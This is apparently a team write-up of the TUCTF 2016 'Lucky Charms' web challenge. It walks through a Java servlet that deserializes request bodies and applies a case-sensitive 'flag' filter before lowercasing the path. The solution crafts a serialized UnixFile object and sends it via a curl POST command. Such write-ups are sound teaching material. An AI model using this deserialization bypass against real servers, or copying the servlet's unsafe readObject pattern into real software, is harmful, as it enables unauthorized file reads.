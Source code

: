 ```yaml
---
layout: post
title:  "TUCTF 2016: Lucky Charms (web 150)"
author: kree
categories: writeup
tags: [cat/web, lang/java]
---
```


* **Category:** web
* **Points:** 150
* **Description:** 

> Nothing like cereal and coffee to start your day!

## Writeup

The given website gives you the following hint in the html source:

```html
<!-- <a href="/?look=LuckyCharms.java"></a> -->
```

This `look` parameter lets to peek into the servlets source code:

```java
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}

...

public class NewServlet extends HttpServlet {

  ...

  public void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
    doPost(request, response);
  }

  public void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      
      
    response.setContentType("text/html");
    PrintWriter out = response.getWriter();
    
    OSFile osfile = null;
    try {
      osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
    } catch (Exception e) {
      //Oops, let me help you out there
      osfile = new WindowsFile();
      if (request.getParameter("look") == null) {
        osfile.file = "charms.html";
      } else {
        osfile.file = request.getParameter("look");
      }
    }

    String f = osfile.getFileName().replace("/","").replace("\\","");
    if (f.contains("flag")) {
      //bad hacker!
      out.println("You'll Never Get Me Lucky Charms!");
      return;
    }

    try {
      Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));  
      String content = new String(java.nio.file.Files.readAllBytes(path));
      out.println(content);
     } catch (Exception e) {
        out.println(e);
        out.println("Nothing to see here");
     }
  }
  ...
}
```

Basically, we want to use the `look` parameter to extract the content of the file named `flag`. However, there is a check in place that prevents us from spying on the file directly. Our challenge is to get past that check. We notice that the string comparison is case sensitive, but when retrieving the file content, the path string gets transformed to lower case. If we manage `osfile.getFileName()` to return the string `Flag` (or any other String with mixed casing), we should be fine.

If we take another look at the subclasses of OSFile, we notice that the class `WindowsFile` converts its filename to lower case, but `UnixFile` doesn't. For our purpose we would use the latter.

Another observation is the fact that both `http` methods `GET` and `POST` are being handled by `doPost`, but until now we only passed `look` as a `GET` parameter. We need to pass a serialized version of the `OSFile` object with the body of our request. Otherwise we trigger an `EOFException` when invoking `request.getInputStream()` and end up with a `WindowsFile` object.

We can generate a unix object with the following lines:

```java
OSFile unixFile = new UnixFile();
unixFile.file = "Flag";
new ObjectOutputStream(System.out).writeObject(unixFile);
```
We'll store the output in a file and use `curl` to pass the `UnixFile` object over a `POST` request, which yields the flag. 

This challenge was solved by kree and paierlep. 

```
curl 'http://146.148.10.175:1033/LuckyCharms' -H 'Accept-Encoding: gzip, deflate, sdch' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' --compressed -X POST --data-binary @object_serialized
```